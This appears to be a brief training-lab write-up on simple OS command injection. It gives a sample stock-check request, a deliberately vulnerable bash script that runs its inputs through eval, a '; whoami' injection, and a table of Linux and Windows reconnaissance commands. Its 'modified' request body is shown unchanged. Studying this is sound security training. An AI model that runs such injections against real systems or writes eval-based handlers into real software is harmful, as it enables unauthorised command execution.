

# Executing Arbitrary Command

## Lab #1: OS command injection, simple case

Sample request
```
POST /product/stock HTTP/1.1
Host: ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
Connection: close
Cookie: session=Lz8JI5iAyVQkMuRmeoIWRzL9jateSHot

productId=1&storeId=1
```

Example case:
productId = $1
storeId = $2

stockreport.sh
```
#!/bin/bash

set -eu

eval cksum <<< "$1 $2" | cut -c 2-3 | rev | sed s/0/1/
```

Modified body parameter:
```
productId=1&storeId=1
```

Command injection:
```
$ stockreport.sh productId storeId; whoami
```



## Useful Commands

Initial commands to obtain information.

| Purpose of command 	| Linux 	| Windows | 
| ----------------------| ----------| -------|
| Name of current user 	| whoami 	| whoami |
| Operating system 	| uname -a 	| ver |
|Network configuration 	| ifconfig 	| ipconfig /all |
|Network connections | netstat -an 	| netstat -an |
|Running processes 	| ps -ef 	| tasklist | 